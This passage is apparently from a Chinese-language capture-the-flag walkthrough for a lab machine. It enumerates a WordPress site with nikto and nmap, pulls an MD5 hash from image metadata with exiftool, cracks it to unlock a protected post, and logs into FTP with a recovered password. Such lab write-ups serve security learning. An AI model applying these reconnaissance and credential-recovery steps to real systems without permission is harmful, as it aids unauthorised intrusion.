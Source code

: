 浏览视频发现房屋牌子上存在信息：flag2
prehistoricforest

访问：http://192.168.253.190/prehistoricforest

点击：July 6, 2016->Announcing the Callahan internal company blog!
Flag #2: thisisthesecondflagyayyou.txt

访问：
http://192.168.253.190/prehistoricforest/thisisthesecondflagyayyou.txt
Flag2 data: Z4l1nsky

----------------------------------
----------------------------------
3）flag3
用nikto扫描发现：
http://192.168.253.190/prehistoricforest/wp-links-opml.php
WordPress/4.5.26

登录页面：
http://192.168.253.190/prehistoricforest/wp-login.php

在博客中：SON OF A!
http://192.168.253.190/prehistoricforest/index.php/2016/07/07/son-of-a/
发现目录：/richard

访问：http://192.168.253.190/richard
发现存在一张图，下载：
wget http://192.168.253.190/richard/shockedrichard.jpg

枚举：
exiftool shockedrichard.jpg
User Comment : ce154b5a8e59c89732bc25d6a2e6b90b
adfc7551120fa16884c295b6d397931f

查看这是什么加密：
hash-identifier
[+] MD5

解密：
https://www.somd5.com/
spanky

访问：http://192.168.253.190/prehistoricforest/
此内容受密码保护，要查看它，请在下面输入您的密码：
spanky

FTP信息枚举：
告诉我们15分钟开启FTP服务，15分钟后又关闭，依次循环往复，密码：nickburns

nmap 192.168.253.190 -p-
65534/tcp open  unknown

ftp 192.168.253.190 65534
nickburns
-rw-rw-r--   1 nickburns nickburns      977 Jul 15  2016 readme.txt
get readme.txt
